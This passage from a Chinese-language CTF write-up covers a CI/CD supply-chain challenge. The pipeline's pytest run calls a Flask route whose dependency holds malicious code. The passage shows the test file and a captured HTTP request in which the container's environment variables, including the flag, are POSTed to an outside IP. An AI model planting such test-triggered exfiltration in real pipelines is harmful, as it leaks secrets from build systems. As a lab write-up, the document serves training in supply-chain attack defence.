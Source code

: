 之所以会 awesome-app 会触发恶意代码，是因为 pipeline 中进行了 pytest：

```bash
pytest -rA test_hello.py
```

而 test\_hello.py 中访问了 flask 的 hello 函数：

```bash
import pytest
from app import app as flask_app


@pytest.fixture()
def app():
    yield flask_app


@pytest.fixture()
def client(app):
    return app.test_client()


def test_hello(client):
    response = client.get("/hello")
    assert b"Hello, User" in response.data
```

因此触发了恶意方法：

```bash
def hello():
    return greet.hello('User')
```

最后两个 pipeline 都构建成功就可以得到 flag，如果中途出了什么问题可以以 root 登上 gitlab 手动启动一下 pipeline 看看什么问题。

```bash
POST / HTTP/1.1
Host: 10.207.127.144:39502
User-Agent: curl/7.88.1
Accept: */*
Content-Length: 720
Content-Type: multipart/form-data; boundary=------------------------848315760974512a

--------------------------848315760974512a
Content-Disposition: form-data; name="file"; filename="flag.txt"
Content-Type: text/plain

HOSTNAME=bdc53e195baf
PYTHON_VERSION=3.8.18
PWD=/app
FLAG11=xxx
PYTHON_SETUPTOOLS_VERSION=57.5.0
HOME=/root
LANG=C.UTF-8
GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568
SHLVL=1
PYTHON_PIP_VERSION=23.0.1
PYTHON_GET_PIP_SHA256=22b849a10f86f5ddf7ce148ca2a31214504ee6c83ef626840fde6e5dcd809d11
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/c6add47b0abf67511cdfb4734771cbab403af062/public/get-pip.py
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env

--------------------------848315760974512a--
```
